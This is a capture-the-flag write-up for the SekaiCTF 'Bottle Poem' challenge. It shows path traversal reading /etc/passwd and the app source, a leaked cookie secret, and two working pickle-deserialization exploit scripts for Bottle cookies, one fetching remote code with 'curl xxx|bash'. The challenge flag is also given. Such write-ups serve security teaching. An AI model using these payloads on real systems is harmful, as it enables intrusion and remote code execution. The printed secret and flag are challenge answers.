


# Writeup

We're initially given the URL <http://bottle-poem.ctf.sekai.team/>:



Clicking on each of the links takes us to a raw content page, each with a different poem:




```
http://bottle-poem.ctf.sekai.team/show?id=spring.txt
```

Notice the `?id=` parameter. From this, it's easy to spot that this website is vulnerable to [path traversal](https://en.wikipedia.org/wiki/Path_traversal_attack). Although you can traverse the directory structure, our flag requires execute permissions, which we don't have[^1].

Let's try to access `/etc/passwd` by appending it to the `?id=` parameter:

```kali@transistor:~/ctf/sekaictf/web_bottle_poem$ curl 'http://bottle-poem.ctf.sekai.team/show?id=../../../etc/passwd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

Cool, we have path traversal.

Leaking `/proc/self/cmdline`, we find out that the current process that is running is `python3 -u /app/app.py`.

We can append this directory to the `?id=` parameter to view the source code:

```py
from bottle import route, run, template, request, response, error
from config.secret import sekai
import os
import re


@route("/")
def home():
    return template("index")


@route("/show")
def index():
    response.content_type = "text/plain; charset=UTF-8"
    param = request.query.id
    if re.search("^../app", param):
        return "No!!!!"
    requested_path = os.path.join(os.getcwd() + "/poems", param)
    try:
        with open(requested_path) as f:
            tfile = f.read()
    except Exception as e:
        return "No This Poems"
    return tfile


@error(404)
def error404(error):
    return template("error")


@route("/sign")
def index():
    try:
        session = request.get_cookie("name", secret=sekai)
        if not session or session["name"] == "guest":
            session = {"name": "guest"}
            response.set_cookie("name", session, secret=sekai)
            return template("guest", name=session["name"])
        if session["name"] == "admin":
            return template("admin", name=session["name"])
    except:
        return "pls no hax"


if __name__ == "__main__":
    os.chdir(os.path.dirname(__file__))
    run(host="0.0.0.0", port=8080)
```

To read the secret `sekai` from `config.secret`, we can traverse to the `/proc/self/cwd/config/secret.py` file:

```py
sekai = "Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu"
```

Now, you effectively have control over your cookies. However, if you read something just like `/views/admin.html` or converted yourself from a guest to admin with cookie manipulation in the `/sign` endpoint, you would find that it's a troll.

What you really need is a method of remote code execution (RCE)—if you search for documentation, you'll find that the `bottle` module's `cookie_decode()` will un-pickle/deserialize, meaning that the website is vulnerable to a deserialization attack (see this [`bottlepy` issue](https://github.com/bottlepy/bottle/issues/900)). These vulnerabilities are pretty common in Python-based web applications, and are often found in the `pickle` module. We'll utilize the `pickle` RCE to reverse a shell, and execute the flag with `./flag`.

Here is a demo exploit: 

```py
import base64, hashlib, pickle, hmac
import os

def tob(s, enc='utf8'):
    if isinstance(s, str):
        return s.encode(enc)
    return b'' if s is None else bytes(s)

# Encode and sign a pickle-able object. Return a (byte) string 
def cookie_encode(data, key):
    msg = base64.b64encode(pickle.dumps(data, 0))
    sig = base64.b64encode(hmac.new(tob(key), msg, digestmod=hashlib.md5).digest())
    return tob('!') + sig + tob('?') + msg

class test():
    def __reduce__(self):
        return (eval,('__import__("os").popen("command")',))

obj = test()
a = cookie_encode(obj,'Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu')
print(a)
```

Here is the same script using `bottle`. Note that you need a reverse shell:

```py
import bottle
import requests
url='http://bottle-poem.ctf.sekai.team/sign'
secret = "Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu"
class Exploit:
    def __reduce__(self):
        return (eval, ('__import__("os").popen("curl xxx|bash")',))

exp = bottle.cookie_encode(
    ('session', {"name": [Exploit()]}),
    secret
)

print(exp)
```

The flag is `SEKAI{W3lcome_To_Our_Bottle}`.

[^1]: Since there were a lot of tickets about this, we later updated the description to say:
    > No bruteforcing is required to solve this challenge. Please do not use scanner tools. Rate limiting is applied. Flag is executable on server.